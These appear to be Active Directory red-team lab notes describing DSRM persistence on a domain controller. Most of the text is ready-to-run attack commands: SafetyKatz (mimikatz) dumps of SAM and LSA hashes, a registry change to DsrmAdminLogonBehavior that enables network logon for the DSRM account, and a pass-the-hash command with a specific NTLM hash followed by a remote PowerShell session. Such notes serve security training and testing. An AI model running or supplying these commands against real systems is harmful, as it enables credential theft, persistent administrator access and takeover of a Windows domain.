 - this is local administrator on the DC
- DSRM is Directory Services Restore Mode.
- There is a local administrator on every DC called "Administrator" whose password is the DSRM password.
- DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed.
- After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.
- Dump DSRM password (needs DA privs)
```
SafetyKatz.exe "token::elevate" "lsadump::sam"
```
- Compare the Administrator hash with the Administrator hash of below command
```
SafetyKatz.exe "lsadump::lsa /patch"
```
- First one is the DSRM local Administrator.
- Since it is the local administrator of the DC, we can pass the hash to authenticate.
 - But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash
```
winrs -r:dcorp-dc cmd
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
```

- Use below commands to Pass-the-hash of DSRM administrator and access the DC:
```
SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"

Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```
